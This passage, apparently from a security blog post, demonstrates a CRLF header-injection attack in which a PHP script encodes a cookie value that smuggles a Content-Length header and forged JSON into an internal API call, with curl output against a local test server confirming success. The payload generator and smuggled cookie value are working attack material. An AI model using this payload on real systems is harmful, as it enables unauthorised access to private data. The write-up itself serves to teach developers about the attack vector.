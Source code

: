 If all goes well, the legitimate JSONPOST data should be completely ignored by the internal API, in favour of our malicious JSON.

To make things easier on myself, I tend to write little scripts to generate these kinds of payloads; it reduces the chances that I'll make a mistake and tie my brain in knots trying to figure out why it's not working. Here's what I wrote:

```
tom@slim:~▶ cat gencookie.php 
<?php
$postData = '{"method": "getPrivateData", "params": []}';
$length = strlen($postData);
$payload = "ignore\r\nContent-Length: {$length}\r\n\r\n{$postData}";
echo "trialGroups=".urlencode($payload);
tom@slim:~▶ php gencookie.php 
trialGroups=ignore%0D%0AContent-Length%3A+42%0D%0A%0D%0A%7B%22method%22%3A+%22getPrivateData%22%2C+%22params%22%3A+%5B%5D%7D
```

Let's give it a try:

```
tom@slim:~▶ curl -s localhost:1234 -b $(php gencookie.php) 
{
  "args": {}, 
  "data": "{\"method\": \"getPrivateData\", \"params\": []}", 
  "files": {}, 
  "form": {}, 
  "headers": {
    "Accept": "*/*", 
    "Connection": "close", 
    "Content-Length": "42", 
    "Content-Type": "application/json", 
    "Host": "httpbin.org", 
    "X-Trial-Groups": "ignore"
  }, 
  "json": {
    "method": "getPrivateData", 
    "params": []
  }, 
  "origin": "X.X.X.X", 
  "url": "http://httpbin.org/post"
}
```

Great success! We set the `X-Trial-Groups` header to ignore, injected a `Content-Length` header, and our own `POST` data. The legitimate `POST` data was still sent, but it was completely ignored by the server :)

This is the kind of bug that you're unlikely to find doing black-box testing, but I think it's still worth writing about because there is so much open source code in use these days, and it's always good to educate people who write code about attack vectors they might not be aware of too.

---
